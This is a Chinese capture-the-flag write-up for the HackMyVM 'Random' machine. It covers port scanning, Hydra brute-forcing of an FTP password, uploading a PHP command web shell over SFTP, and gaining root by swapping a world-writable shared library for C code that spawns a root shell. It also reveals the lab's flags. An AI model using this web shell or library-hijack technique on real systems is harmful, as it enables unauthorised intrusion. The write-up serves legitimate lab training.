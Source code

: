 ```yaml
---
{"dg-publish":true,"tags":["HMV","动态链接库替换"],"难度":"⭐️⭐️⭐️","作者":"sml","系统":"Linux","permalink":"/24-渗透/HMV/15.Random/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.870+08:00"}
---
```




## 1. 基本信息^toc

- [[24-渗透/HMV/15.Random#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/15.Random#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/15.Random#3. FTP\|3. FTP]]
- [[24-渗透/HMV/15.Random#4. SFTP\|4. SFTP]]
- [[24-渗透/HMV/15.Random#5. 提权 -动态链接库替换\|5. 提权 -动态链接库替换]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Random
```


```
作者：sml
```

```
难度：⭐️⭐️⭐️
```


```
知识点：动态链接库替换
```
## 2. 信息收集

```Bash
┌──(root㉿kali)-[/home/kali/hmv/random]
└─# nmap 192.168.9.17 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-13 19:38 CST
Nmap scan report for 192.168.9.17
Host is up (0.00040s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:88:4C:D2 (Oracle VirtualBox virtual NIC)
```
首页

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.001.png)

获取到两个用户

```Bash
alan 
eleanor
```
目录扫描 啥都没有

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.002.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.003.png)

## 3. FTP

匿名登录发现进不来目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.004.png)

尝试用另外两个用户登录

hydra爆破试试

他说alan不能ssh登录

那么eleanor 用户可以ssh

爆破eleanor用户

这爆破出用户eleanor 的ftp密码是 ladybug

但权限只有读。

所以无法上传马儿

## 4. SFTP

尝试用这个密码ssh上去

失败了

```Bash
ssh eleanor@192.168.9.17
eleanor@192.168.9.17's password:
This service allows sftp connections only.
Connection to 192.168.9.17 closed.
```
但告诉我们允许sftp链接

```Bash
sftp eleanor@192.168.9.17
```
用sftp连接上来就可以上传文件了

直接上传一个马儿

```Bash
<?php system($\_POST['cmd']);
echo ok;?>
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.005.png)

## 5. 提权 -动态链接库替换

上来后基本命令检测没有利用的

我们之前不让用密码进行ssh登录

但是可以用密码切换用户

```Bash
su eleanor
eleanor@random:/home/eleanor$ cat note.txt
alan disabled my access via SSH but not my account.
He is a bad admin!
-eleanor
eleanor@random:/home/eleanor$ cat user.txt
ihavethapowah
eleanor@random:/home/eleanor$
```

近用户目录发现 random可以被执

直接下下来分析

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.006.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.007.png)

就是检测以当前时间为种子的随机数的0-9的余数能不能与我们输入的值相等

我们只要一直输入0-9之间的数，总可以匹配上

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.008.png)

回去看一下发现makemeroot函数没有写执行代码，直接return自己了

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.009.png)

可能是调用了本地的动态链接库

```Bash
ldd random
eleanor@random:/home/alan$ ldd random
        linux-vdso.so.1 (0x00007ffc0a3e5000)
        librooter.so => /lib/librooter.so (0x00007f7bcafa1000)
        libc.so.6 => /lib/x86\_64-linux-gnu/libc.so.6 (0x00007f7bcade0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7bcafb2000)
```
而且/lib/librooter.so链接库是可写的

```Bash
eleanor@random:/home/alan$ ls /lib/librooter.so -la
-rwxrwxrwx 1 root root 15984 Oct 19  2020 /lib/librooter.so
```
直接替换掉

```Bash
#include <stdlib.h>

void makemeroot()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```
本地编译好后传上去替换即可

然后运行即可获取root

```Bash
howiarrivedhere
```


